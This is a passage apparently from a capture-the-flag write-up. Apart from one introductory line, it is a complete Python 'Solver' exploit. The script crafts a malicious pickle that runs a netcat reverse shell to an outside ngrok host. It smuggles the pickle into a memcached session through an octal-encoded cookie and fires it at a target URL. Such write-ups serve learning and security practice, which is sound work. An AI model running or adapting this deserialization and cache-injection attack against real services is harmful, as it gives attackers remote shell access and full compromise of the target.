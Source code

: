 Let's proceed to exploit it by performing a reverse shell:

Solver:
``` python
import pickle
import os
import requests

URL = "http://83.136.253.251:31432/"

class RCE:
    def __reduce__(self):
        cmd = ('nc 0.tcp.ap.ngrok.io 13906 -e /bin/sh')
        return os.system, (cmd,)

class Exploit():
    def __init__(self, url=URL):
        self.url = url

    def generate_exploit(self):
        payload = pickle.dumps(RCE(), 0)
        payload_size = len(payload)
        cookie = b'137\r\nset session:10 0 2592000 '
        cookie += str.encode(str(payload_size))
        cookie += str.encode('\r\n')
        cookie += payload
        cookie += str.encode('\r\n')
        cookie += str.encode('get session:10')

        pack = ''
        for x in list(cookie):
            if x > 64:
                pack += oct(x).replace("0o","\\")
            elif x < 8:
                pack += oct(x).replace("0o","\\00")
            else:
                pack += oct(x).replace("0o","\\0")

        return f"\"{pack}\""

    def exploit(self):
        cookie = {"session": self.generate_exploit()}
        req = requests.get(self.url, cookies=cookie)
        req = requests.get(self.url, cookies=cookie)

        return req.status_code

if __name__ == "__main__":
    run = Exploit()
    print(run.exploit())
```
